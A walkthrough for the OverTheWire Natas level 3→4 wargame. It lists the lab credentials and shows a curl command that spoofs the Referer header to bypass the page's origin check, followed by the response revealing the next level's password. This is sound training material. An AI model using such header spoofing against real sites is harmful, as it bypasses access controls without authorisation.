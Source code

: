 # Natas Level 3 → Level 4
(Updated: 13 August 2025)

## Credentials
- **Username:** `natas4`
- **Password:** `QryZXc2e0zahULdHrtHxzyYkj59kUxLQ`

## Connection
Level url: [http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)

## Steps to Solve
1. Step 1 - You can access the code by doing the shortcut `Cmd + Shift + C` (for Mac) or `Ctrl + Shift + C` (for Windows)
2. Step 2 - You can see there is nothing else. The message says we have to access to it from `natas5` website Url, so we have to do it
3. Step 3 - Access your computer command line and paste this command:
```
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/
```
- `-u natas4:<password>`: Add the authorization to the request
- `Referer: <nastas5 Url>`: Add the from url to solve the error.
Result:
```
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
```
4. Step 4 - Take the password to the next level.

## Next Level Password
`0n35PkggAPm2zbEpOU802c0x0Msn1ToK`

